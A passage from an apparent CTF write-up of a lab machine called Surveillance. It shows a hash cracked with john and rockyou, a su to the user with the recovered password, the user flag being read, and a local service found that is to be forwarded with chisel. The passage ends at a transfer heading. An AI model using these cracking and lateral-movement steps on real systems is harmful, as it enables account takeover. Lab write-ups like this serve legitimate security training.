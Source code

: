 We have a hash for the user matthew, now let's crack it:
```plaintext
❯ john -w=/usr/share/wordlists/rockyou.txt matthew.hash --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?)     
1g 0:00:00:00 DONE (2024-04-17 19:11) 3.225g/s 11627Kp/s 11627Kc/s 11627KC/s stefon23..sozardme
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

Now, we can migrate to that user and see user.txt:

```bash
www-data@surveillance:~/html/craft/storage/backups$ su matthew
Password: starcraft122490 
matthew@surveillance:/var/www/html/craft/storage/backups$ whoami
matthew
matthew@surveillance:/var/www/html/craft/storage/backups$ cd /home/matthew/
matthew@surveillance:~$ cat user.txt
e11642e5faad074f8c3ee154d53609df
```

# Access as zoneminder

If we see the services running on localhost in the machine, we can see that there is another web service running on port 8080:

```bash
matthew@surveillance:~$ netstat -ntlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

I will forward it to my machine with [chisel](https://github.com/jpillora/chisel):

## Transfer
